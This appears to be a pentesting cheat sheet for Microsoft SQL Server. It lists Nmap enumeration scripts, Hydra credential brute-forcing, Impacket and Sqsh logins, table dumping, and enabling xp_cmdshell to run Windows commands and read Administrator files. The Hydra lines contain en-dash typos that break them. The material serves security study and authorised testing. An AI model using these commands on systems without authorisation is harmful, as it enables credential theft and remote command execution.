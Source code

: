 ```yaml
---
title: Microsoft SQL (MSSQL) Pentesting
desc: Default port is 1433.
tags: [1433, Database, Impacket, Microsoft, MSSQL, Nmap, SQL, Sqsh, Windows]
alts: []
render_with_liquid: false
---
```


## Enumeration

1. **Use Nmap**

    ```sh
    nmap --script ms-sql-info -p 1433 <target-ip>
    nmap --script ms-sql-config -p 1433 <target-ip>
    nmap --script ms-sql-empty-password,ms-sql-xp-cmdshell -p 1433 <target-ip>
    nmap --script ms-sql-* -p 1433 <target-ip>
    ```

2. **Brute Force Credentials**

    ```sh
    hydra -L usernames.txt –p password <target-ip> mssql
    hydra -l username –P passwords.txt <target-ip> mssql
    ```

<br />

## Connect

1. **Use Impacket**

    ```sh
    impacket-mssqlclient -port 1433 DOMAIN/username:password@<target-ip>
    impacket-mssqlclient -port 1433 DOMAIN/username:password@<target-ip> -windows-auth
    ```

2. **Use Sqsh**

    ```sh
    sqsh -S <target-ip> -U username -P password
    sqsh -S <target-ip> -U username -P password -D database
    ```

<br />

## Basic Commands

1. **Commonly Used**

    ```sh
    # Get databases
    > SELECT * FROM master.dbo.sysdatabases

    # Get table content
    > SELECT * FROM <database_name>.dbo.<table_name>
    ```

<br />

## Spawn a Windows Command Shell and Executing using Impacket

If you connected MSSQL using **impacket**, you can exeucte the Windows Shell Commands by **"enable_xp_cmdshell"**.

1. **Enable/Disable a Windows Shell**


    ```powershell
    > enable_xp_cmdshell
    > disable_xp_cmdshell
    ```

2. **Basic Commands**

    You can execute commands the same as Windows Command Prompt.

    ```powershell
    # Get current user
    > xp_cmdshell whoami

    # Show files and directories
    > xp_cmdshell dir
    > xp_cmdshell dir \Users
    # Show hidden files
    > xp_cmdshell dir /a

    # Get current directory
    > xp_cmdshell cd

    # Get contents of file
    > xp_cmdshell more \Users\Administrator\example.txt
    > xp_cmdshell type \Users\Administrator\example.txt
    ```